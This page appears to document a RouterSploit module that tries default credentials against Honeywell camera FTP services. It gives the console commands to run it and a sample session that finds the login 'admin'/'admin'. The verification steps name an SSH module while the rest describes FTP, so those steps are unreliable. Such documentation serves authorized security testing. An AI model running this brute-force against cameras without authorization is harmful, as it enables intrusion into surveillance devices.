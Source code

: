 ## Description

Module performs dictionary attack with default credentials against Honeywell Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/honeywell/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/honeywell/ftp_default_creds
rsf (Honeywell Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Honeywell Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
